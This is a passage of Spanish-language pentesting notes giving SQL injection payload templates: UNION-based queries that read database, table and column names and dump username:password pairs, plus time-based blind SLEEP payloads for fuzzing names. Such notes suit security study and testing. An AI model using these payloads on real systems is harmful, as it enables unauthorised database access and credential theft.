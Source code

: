 ```bash
# Ejemplo de estructura basica para extraer nombre de base de datos.
<parametro numerico inyectable> UNION SELECT 1,2, database() ;--
```
---

```bash
# Extraer Nombres de tablas
<parametro numerico inyectable> UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = '<db_name>'
```
---

```bash	
# Extraer nombres de columnas
<parametro numerico inyectable> UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = '<table_name>'
```
---

```bash
# Extraer valores
<parametro numerico inyectable> UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM <table_name>
```

Si podemos ejecutar consultas pero no ver (Blind-SQLi) los resultados, usamos: `error-based` o `time-based`.

#### **b) Time-Based Blind SQLi**

Si la consulta fue realizada con exito en la db la respuesta tarda el tiempo que pongamos en SLEEP(tiempo)

* Estructura basica con ejemplos:

```bash
# Si tarda 5 segundos el parametro es vulnerable
<parametro_inyectable>' UNION SELECT SLEEP(5);--
```
---

```bash
# Si tarda 5 segundos encontestar las columnas son 2
<parametro inyectable>' UNION SELECT SLEEP(5),2;--
```
---
```bash
# Si tarda 5 segundos en contestar 
<param_inyectable>' UNION SELECT SLEEP(5),2 where database() like '<FUZZ_db_name>%';--
```
> Fuzzeamos caracteres de posibles nombre de la base de datos hasta encontrar el nombre. Caracter por caracter o con wordlists.

```bash
# Tablas
<parametro inyectable>' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = '<db_name>' AND table_name LIKE 'FUZZ%'; --
```
---
